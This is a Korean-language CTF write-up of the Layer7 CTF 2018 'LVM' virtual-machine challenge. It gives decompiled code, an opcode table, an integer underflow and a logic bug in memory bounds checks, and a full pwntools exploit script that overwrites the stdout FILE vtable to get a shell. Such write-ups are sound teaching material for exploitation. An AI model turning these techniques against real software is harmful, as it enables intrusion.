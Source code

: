 ```yaml
---
title: Layer7 CTF 2018 - LVM
date: 2018-09-21 23:19:53
categories:
- VM
- CTF write up
tags:
- File Stream Oriented Programming
- Intger Underflow
---
```


```c
void __usercall __noreturn main(__int64 a1@<rdi>, char **a2@<rsi>, char **a3@<rdx>, _QWORD *a4@<r12>){
  _QWORD *addr; // rbx
  signed int v5; // er8
  addr = init_calloc();
  init_p();
  if ( !input(addr) )
    exit(-1);
  vm(addr, v5, a4);
  start(addr);}
```

드디어 풀었다... 대회때 풀진 않았고 VM문제 풀어 보라는 NextLine 님의 말을 따라.. 풀었다.

머리가 vm이 된 것 같은 기분을 경험했다.. 솔버 2명일 때 부터 알아봤어야 했는데..

기법을 새로 배운건 없었지만 생각을 많이 할 수 있어서 좋았다. VM문제도 처음 풀어봐서 좋았고!

립찔이에게 최적화 레벨 3은 너무 힘들었다... LABEL과 goto 문의 향연.. 



| operator  | op1 flag | op1 value      | op2 flag | op2 value                 |
| --------- | -------- | -------------- | -------- | ------------------------- |
| 0x1-0x7,9 | 0x0      | op1 = reg[idx] | 0x0      | op2 = reg[idx], pflag = 1 |
|           |          |                | 0x1      | op2 = idx, pflag = 0      |
|           |          |                | 0x2      | op2 = mem[idx], pflag =1  |
|           | 0x2      | op1 = mem[idx] | 0x0      | op2 = reg[idx], pflag = 1 |
|           |          |                | 0x1      | op2 = idx, pflag = 0      |
|           |          |                | 0x2      | op2 = mem[idx], pflag =1  |
| 0x0,8,a   | 0x1      | op1 = reg[idx] |          |                           |

if pflag set) *op1 = *op1 [operator] *op2
	unset) *op1 = *op1 [operator] op2

op2 flag 위치와 opcode 길이는 op1 flag 마다 바뀐다.



```c
        if ( mem_idx > 0xFFF )                  // integer underflow
        {
          puts("Invalid memory.");
          exit(-3);
        }
		op1 = (cpu[18] + mem_idx);
```

여기서 Integer Underflow가 터진다. 이거 찾는 게 힘들었다..ㅠㅠ



```c
          if ( mem_idx_2 > 4095 )
          {
            puts("Invalid memory.");
            flag = 1;
          }
```

여기선 로직 버그가 있다. 딱봐도 수상해보인다.



```python
from pwn import *

w = process("./lvm")

offset = 0x3c56a3 - 0xf02a4

# set op2=0x602010 
payload = "\x09\x00\x03\x01"+p64(0x602010)

# set cpu[18] = *0x602010 using memory logic bug, integer underflow
payload += "\x09\x02\xe0\xef\xff\xff\x02".ljust(11,"\xff")

# change vtable with operator
payload += "\x02\x02\x08\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x10\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x18\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x20\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x28\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x30\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x38\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x40\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x48\x00\x00\x00\x01"+p64(offset+1)

payload += "\x01\x02\xd8\x00\x00\x00\x01"+p64(0x1f40-0x8)

w.sendline(payload)
w.interactive()

```

다른 VM 문제들 보면 함수로 이쁘게 짜던데... 그러면 더 더러워 질 것 같아서 그냥 썼다.

로직 버그 쓰기위해 op2 를 써놓고 로직버그랑 인티저 언더플로우 이용해서 cpu[18]에 stdout 주소를 써준다.

이러면 stdout file struct 에 값을 쓸 수 있게 되는데, 여기서 어딘가의 libc 주소가 8개쯤 써있다.

여기에 연산 이용해서 one_shot offset 으로 맞춰준다.

vtable을 이 주소로 덮어주면 쉘이 따인다. 짜잔

vtable 말고 exit handler 나 dl open hook을 덮으면 된다는 데 그건 따로 포스팅해야지
